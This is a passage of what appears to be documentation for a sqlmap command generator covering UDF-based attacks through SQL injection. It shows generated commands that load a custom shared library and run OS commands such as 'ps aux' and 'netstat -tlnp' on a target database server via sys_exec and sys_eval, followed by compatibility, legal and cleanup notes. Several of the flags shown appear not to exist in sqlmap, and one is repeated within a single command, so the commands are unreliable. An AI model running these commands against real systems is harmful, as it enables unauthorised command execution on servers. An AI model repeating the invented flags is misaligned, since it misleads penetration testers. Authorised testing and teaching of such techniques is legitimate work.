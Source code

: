### Custom UDF Repository
```
UDF Path: /custom/udf/
UDF Drop: ✓ Enabled
Shared Library: custom_functions.so
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/custom.php?id=1" --udf-path=/custom/udf/ --udf-drop --shared-lib=custom_functions.so
```

### Batch UDF Operations
```
UDF Exec: sys_exec
UDF Args: 'ps aux'
UDF Exec: sys_eval
UDF Args: 'netstat -tlnp'
```
**Generated Command:**
```bash
sqlmap -u "http://example.com/batch.php?id=1" --udf-exec=sys_exec --udf-args='ps aux' --udf-exec=sys_eval --udf-args='netstat -tlnp'
```

## ⚠️ Important Considerations

### UDF Compatibility
- **Database version**: UDFs must match database version
- **Platform architecture**: 32-bit vs 64-bit compatibility
- **Compiler version**: Must match database compilation
- **Library dependencies**: Required system libraries

### Performance Impact
- **Compilation time**: UDF creation can be slow
- **Memory usage**: UDFs consume database memory
- **Execution overhead**: Additional function call overhead
- **Resource limits**: Database resource constraints

### Legal and Ethical Issues
- **Authorization required**: Only use on authorized systems
- **System stability**: UDFs can crash database server
- **Data integrity**: Poor UDFs can corrupt data
- **Audit compliance**: May violate security policies

### Cleanup and Maintenance
- **Remove after use**: Always drop UDFs when done
- **Version management**: Track UDF versions
- **Backup procedures**: Backup before UDF operations
- **Testing environment**: Test UDFs in safe environment first

